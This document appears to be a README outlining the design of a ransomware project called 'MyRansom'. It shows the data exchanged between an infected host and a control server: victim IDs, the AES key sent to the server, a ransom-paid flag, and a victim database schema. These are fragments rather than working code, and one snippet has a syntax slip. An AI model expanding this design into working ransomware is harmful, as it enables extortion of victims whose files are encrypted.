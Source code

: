 # Args of MyRansom

## infected host

### init

```python
post_data = {
    'id': uuid.uuid1().hex
}
```

### aes key

```python
self.aes_key = self.enc_key()
post_data = {
    'id': self.id,
    'aes_key': self.aes_key
}
```

### paid

```python
post_data = {
    'id': self.id,
    'aes_key': self.aes_key,
    'ransom': True
}
```

## Server

### database

```sql
    ID         VARCHAR(32)    NOT NULL,
    INFTIME    VARCHAR(100)    NOT NULL,
    RANSOM     BOOLEAN         NOT NULL,
    AESKEY     VARCHAR(100)    NOT NULL
```

### viclist

```python
viclist = [
    {
        'id': victim_id,
        'inftime': time.time()
        'ransom': False,
        'aes_key': aes_key
    }
]
```

### paid

```python
aes_key = dec_key()
post_data = {
    'id': victim_id,
    'aes_key': aes_key
}
```

## Front-end


